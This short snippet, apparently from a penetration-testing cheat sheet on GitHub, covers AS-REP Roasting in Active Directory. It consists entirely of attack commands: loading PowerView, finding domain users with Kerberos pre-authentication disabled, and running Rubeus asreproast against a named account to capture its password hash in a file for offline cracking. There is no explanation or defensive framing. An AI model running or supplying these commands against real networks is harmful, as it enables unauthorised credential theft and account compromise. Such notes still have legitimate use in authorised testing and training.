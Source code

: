 ## As-REP Roasting
- First Find User with Keberos No_Preauthentication ( DONT_REQ_PREAUTH )
```
. .\PowerView.ps1
```
```
Get-DomainUser | Where-Object { $_.useraccountcontrol -like "*DONT_REQ_PREAUTH"}
```
```
.\Rubeus.exe asreproast /usr:johnny /outfile:file.txt
```
